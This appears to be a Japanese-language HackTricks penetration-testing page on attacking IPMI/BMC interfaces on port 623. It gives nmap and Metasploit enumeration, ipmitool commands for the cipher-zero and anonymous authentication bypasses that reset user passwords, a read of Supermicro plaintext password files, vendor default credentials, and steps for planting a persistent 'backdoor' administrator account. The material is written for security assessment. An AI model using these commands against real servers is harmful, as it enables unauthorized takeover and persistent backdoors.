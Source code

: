 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

### **IPMIの概要**

**[インテリジェントプラットフォーム管理インターフェース (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** は、オペレーティングシステムや電源状態に依存せず、コンピュータシステムのリモート管理と監視のための標準化されたアプローチを提供します。この技術により、システム管理者は、システムがオフまたは応答しない場合でも、リモートでシステムを管理でき、特に以下の用途に便利です：

- OSブート前の設定
- 電源管理
- システム障害からの回復

IPMIは、温度、電圧、ファン速度、電源供給の監視が可能で、在庫情報の提供、ハードウェアログのレビュー、SNMPを介したアラートの送信も行います。その運用に必要なのは、電源とLAN接続です。

1998年にインテルによって導入されて以来、IPMIは多くのベンダーによってサポートされ、特にバージョン2.0のLAN経由のシリアルサポートにより、リモート管理機能が強化されました。主要なコンポーネントには以下が含まれます：

- **ベースボード管理コントローラー (BMC)：** IPMI操作のための主要なマイクロコントローラー。
- **通信バスとインターフェース：** ICMB、IPMB、ローカルおよびネットワーク接続用のさまざまなインターフェースを含む内部および外部通信のためのもの。
- **IPMIメモリ：** ログとデータを保存するためのもの。

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**デフォルトポート**: 623/UDP/TCP（通常はUDPですが、TCPで動作している場合もあります）

## 列挙

### 発見
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
あなたは**バージョン**を次のようにして**特定**できます:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMIの脆弱性

IPMI 2.0の領域では、Dan Farmerによって重要なセキュリティ欠陥が発見され、**cipher type 0**を通じて脆弱性が露呈しました。この脆弱性は、[Dan Farmerの研究](http://fish2.com/ipmi/cipherzero.html)で詳細に文書化されており、有効なユーザーがターゲットにされる限り、任意のパスワードで不正アクセスを可能にします。この弱点は、HP、Dell、SupermicroなどのさまざまなBMCで見つかり、すべてのIPMI 2.0実装における広範な問題を示唆しています。

### **Cipher 0によるIPMI認証バイパス**

この欠陥を検出するために、以下のMetasploit補助スキャナーを使用できます：
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
この欠陥の悪用は、以下に示すように `ipmitool` を使用して実現可能であり、ユーザーパスワードのリスト表示と変更を可能にします：
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP 認証リモートパスワードハッシュ取得**

この脆弱性により、既存のユーザー名に対して塩を加えたハッシュ化されたパスワード（MD5およびSHA1）を取得できます。この脆弱性をテストするために、Metasploitはモジュールを提供しています：
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI 匿名認証**

多くの BMC のデフォルト設定では、ユーザー名とパスワードが空の「匿名」アクセスが許可されています。この設定は、`ipmitool` を使用して名前付きユーザーアカウントのパスワードをリセットするために悪用される可能性があります。
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI 平文パスワード**

IPMI 2.0の重要な設計選択は、認証目的のためにBMC内に平文パスワードを保存する必要があります。Supermicroがこれらのパスワードを`/nv/PSBlock`や`/nv/PSStore`などの場所に保存することは、重大なセキュリティ上の懸念を引き起こします：
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnPの脆弱性**

SupermicroのIPMIファームウェアにUPnP SSDPリスナーが含まれていること、特にUDPポート1900での実装は、深刻なセキュリティリスクをもたらします。[Rapid7の開示](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play)で詳述されているように、UPnPデバイス用のIntel SDKバージョン1.3.1の脆弱性により、BMCへのルートアクセスが可能になります。
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### ブルートフォース

**HPは製造時に**その**Integrated Lights Out (iLO)**製品のデフォルトパスワードをランダム化します。この慣行は、**静的デフォルト資格情報**を使用する傾向のある他のメーカーとは対照的です。さまざまな製品のデフォルトユーザー名とパスワードの概要は以下の通りです：

- **HP Integrated Lights Out (iLO)**は、**工場でランダム化された8文字の文字列**をデフォルトパスワードとして使用し、より高いセキュリティレベルを示しています。
- **DellのiDRAC、IBMのIMM**、および**FujitsuのIntegrated Remote Management Controller**のような製品は、それぞれ「calvin」、「PASSW0RD」（ゼロを含む）、および「admin」のような簡単に推測可能なパスワードを使用しています。
- 同様に、**Supermicro IPMI (2.0)、Oracle/Sun ILOM**、および**ASUS iKVM BMC**も「ADMIN」、「changeme」、および「admin」をパスワードとして使用するシンプルなデフォルト資格情報を持っています。


## BMCを介してホストにアクセスする

Baseboard Management Controller (BMC)への管理アクセスは、ホストのオペレーティングシステムにアクセスするためのさまざまな経路を開きます。簡単なアプローチは、BMCのキーボード、ビデオ、マウス（KVM）機能を利用することです。これは、GRUBを介してホストをルートシェルに再起動する（`init=/bin/sh`を使用）か、リカバリディスクとして設定された仮想CD-ROMからブートすることで行えます。このような方法により、ホストのディスクを直接操作し、バックドアの挿入、データ抽出、またはセキュリティ評価のために必要な任意のアクションを実行できます。ただし、これはホストの再起動を必要とし、重大な欠点です。再起動せずに実行中のホストにアクセスすることはより複雑で、ホストの構成によって異なります。ホストの物理コンソールまたはシリアルコンソールがログインしたままであれば、BMCのKVMまたはシリアルオーバーLAN（sol）機能を介して`ipmitool`を使用して簡単に乗っ取ることができます。i2cバスやSuper I/Oチップのような共有ハードウェアリソースの悪用を探ることは、さらなる調査が必要な分野です。

## ホストからBMCにバックドアを導入する

BMCを装備したホストを侵害した場合、**ローカルBMCインターフェースを利用してバックドアユーザーアカウントを挿入することができます**。これにより、サーバー上に持続的な存在を作成します。この攻撃には、侵害されたホストに**`ipmitool`**が存在し、BMCドライバーサポートが有効である必要があります。以下のコマンドは、認証をバイパスしてホストのローカルインターフェースを使用してBMCに新しいユーザーアカウントを注入する方法を示しています。この技術は、Linux、Windows、BSD、さらにはDOSを含む広範なオペレーティングシステムに適用可能です。
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
